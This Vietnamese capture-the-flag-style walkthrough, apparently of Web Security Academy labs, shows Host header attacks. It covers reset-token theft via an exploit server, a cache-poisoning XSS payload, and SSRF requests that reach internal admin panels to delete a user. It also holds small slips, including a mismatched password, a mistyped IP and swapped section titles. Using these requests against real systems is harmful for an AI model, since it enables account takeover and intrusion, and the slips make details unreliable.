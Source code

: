# 1. Basic password reset poisoning
Dùng chức năng forgot password với tham số `username=wiener` rồi vào Email Client kiểm tra, thấy URL để reset password là `https://0a07003004a3df1ec0903b3f0007004e.web-security-academy.net/forgot-password?temp-forgot-password-token=R9Qgu9I1N6a2aN3P3siCSAQoNtJkOu2k`.

Thử thay đổi header `Host: test.com` rồi gửi lại, thì kết quả URL reset trở thành `https://test.com/forgot-password?temp-forgot-password-token=1kbaGZSQ0CofoeyPFQKHXUasCLvaewHH`. Như vậy website cấu hình URL reset password sử dụng Host header. 

Ta thay đổi header `Host: exploit-0a08009d04bfdf7bc0a03a1a018100ea.exploit-server.net` và chỉnh tham số `username=carlos`. Sau khi submit, vào Access Log kiểm tra thì thấy có request gửi đến chứa một reset password token:
```
10.0.4.223      2023-03-06 02:02:50 +0000 "GET /forgot-password?temp-forgot-password-token=PF9X5fUYYSTSeNjUjRK4Dxhrtw5TGKQO HTTP/1.1" 404 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.119 Safari/537.36"
```
Đó là reset token của user carlos. Ta truy cập `https://0a07003004a3df1ec0903b3f0007004e.web-security-academy.net/forgot-password?temp-forgot-password-token=PF9X5fUYYSTSeNjUjRK4Dxhrtw5TGKQO` rồi tiến hành đổi mật khẩu thành `hello`, sau đó đăng nhập với credentials `carlos:password`, kết quả thành công. 

# 2. Host header authentication bypass
Trong Home page có một đoạn tracking script:
```
<script type="text/javascript" src="//0ad4007504b85e20c0e9721e005e00d9.web-security-academy.net/resources/js/tracking.js">
```
Ta thử thêm một duplicate Host header vào trong request sử dụng Burp Repeater:
```
GET / HTTP/1.1
Host: 0ad4007504b85e20c0e9721e005e00d9.web-security-academy.net
Host: test.com
```
Khi đó, domain name trong tracking script cũng trở thành `test.com`. Để ý rằng website có sử dụng cache, và khi ta thay đổi Host header thứ 2 thì cache vẫn trả về trạng thái "hit". Như vậy ta có thể exploit web cache poisoning như sau:

Gửi request `GET /` với header
```
Host: 0ad4007504b85e20c0e9721e005e00d9.web-security-academy.net
Host: "></script><script>alert(document.cookie)</script>
```
Submit đến khi response chứa tag script được lưu vào cache. Khi victim truy cập home page, lệnh alert sẽ được thực thi.

Như vậy, bài lab được giải thành công.

# 3. Web cache poisoning via ambiguous requests
Thử vào URL `/admin` thì thấy thông báo "Admin interface only available to local users". 

Bắt request sử dụng Burp Repeater. Khi thay đổi header `Host: localhost` thì ta vẫn có thể truy cập được website, đồng thời "Admin panel" được hiển thị. Từ đó, ta khám phá ra được để delete user carlos thì ta cần gửi request đến `/admin/delete?username=carlos`. Cấu hình request như sau:
```
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
....
```
Sau khi submit, bài lab được giải.

# 4. Routing-based SSRF
Dùng Burp Repeater bắt request đến Home page. Thử thay đổi header `Host: j5pxkiye8gmuytdbybbned2em5svgk.oastify.com`, gửi request rồi vào Burp Collaborator Client kiểm tra thì thấy có request được gửi đến. Như vậy ta có thể thực thi SSRF bằng cách thay đổi Host header.

![image](https://user-images.githubusercontent.com/103978452/223042227-5c76ea65-137f-4f82-8738-bf0a0e154300.png)

Gửi request vào Burp Intruder, thực hiện bruteforce với giá trị của Host header từ 192.168.0.0 đến 192.168.0.255, ta thấy chỉ có thể truy cập được nếu giá trị là 192.268.0.113

![image](https://user-images.githubusercontent.com/103978452/223042476-33db1f5d-599b-40a4-ae33-4011c5535214.png)

Dùng Burp Repeater gửi lại request với header `Host: 192.168.0.113`, ta được chuyển hướng đến URL `/admin`. Dựa trên trang đó, ta biết rằng muốn xóa user carlos thì cần gửi POST request đến `/admin/delete`. Như vậy ta cấu hình một request như sau:

```
POST /admin/delete HTTP/1.1
Host: 192.168.0.113
Content-Type: application/x-www-form-urlencoded
....

csrf=5dcGh6aSE9TEu9v545rRAs7WunnUtpLj&username=carlos
```
Sau khi click submit, bài lab được giải.

# 5. SSRF via flawed request parsing
Nhận thấy việc thay đổi `Host` header sẽ dẫn đến request bị blocked. Tuy nhiên, gửi request với absolute path `GET https://0a52004d04fc3195c08d18de00ee00f9.web-security-academy.net` thì vẫn nhận được response là trang Home page. Khi đó, nếu ta thay đổi `Host` header thì sẽ không bị blocked nữa, mà thay vào đó sẽ không nhận được response.

Gửi request sau vào Intruder:
```
GET https://0a52004d04fc3195c08d18de00ee00f9.web-security-academy.net/admin HTTP/2
Host: 192.168.0.§0§
...
```
Tiến hành brutefoce số cuối cùng của địa chỉ IP từ 0 đến 255, ta thấy với `Host: 192.168.0.201` thì nhận được response.

![image](https://user-images.githubusercontent.com/103978452/223896261-81a0361e-f440-4065-bc4f-b5437405bdbf.png)

Như vậy, ta cấu hình request sau:
```
GET https://0a52004d04fc3195c08d18de00ee00f9.web-security-academy.net/admin HTTP/2
Host: 192.168.0.201
...
```
Từ đó lấy được csrf token và biết rằng để xóa user carlos ta cần gửi request `POST /admin/delete` với hai tham số là csrf và username. Cấu hình request bên dưới:
```
POST https://0a52004d04fc3195c08d18de00ee00f9.web-security-academy.net/admin/delete HTTP/2
Host: 192.168.0.201
Content-Type: application/www-form-urlencoded
...

csrf=IGb4QkwVRAAkz904RH2hxu2SANG8Ff46&username=carlos
```
Sau khi submit, bài lab được giải thành công.

# 6. Host validation bypass via connection state attack
Sử dụng Burp Repeater để bắt request đến Home page. Nhận thấy khi thay đổi header `Host: 192.168.0.1` thì không có response được trả về. Tuy nhiên khi gửi request thông thường (Host header mặc định) trước rồi gửi request với header `Host: 192.168.0.1` thì kết quả lại thành công. Như vậy website đã reuse HTTP connection với Host header được coi là không đổi.

Như vậy, muốn exploit SSRF để truy cập `192.168.0.1` từ server, đầu tiên ta gửi một request với `Host: 0a2900030435075bc284bef4009d00f7.web-security-academy.net` sau đó sẽ gửi các request với header `Host: 192.168.0.1`.

Gửi request sau:
```
GET /admin HTTP/2
Host: 192.168.0.1
...
```
Phân tích response ta biết được để xóa user carlos cần thực hiện request `POST /admin/delete`. Đồng thời, ta cũng thu được csrfToken là `IclUFsBJ1at9lllg0E4Z4y1xd2sddB8k`.

Như vậy, ta cấu hình request sau:
```
POST /admin/delete HTTP/2
Host: 192.168.0.1
Content-Type: application/x-www-form-urlencoded
...

username=carlos&csrf=IclUFsBJ1at9lllg0E4Z4y1xd2sddB8k
```
Sau khi submit, bài lab được giải thành công.

# 7. Password reset poisoning via dangling markup
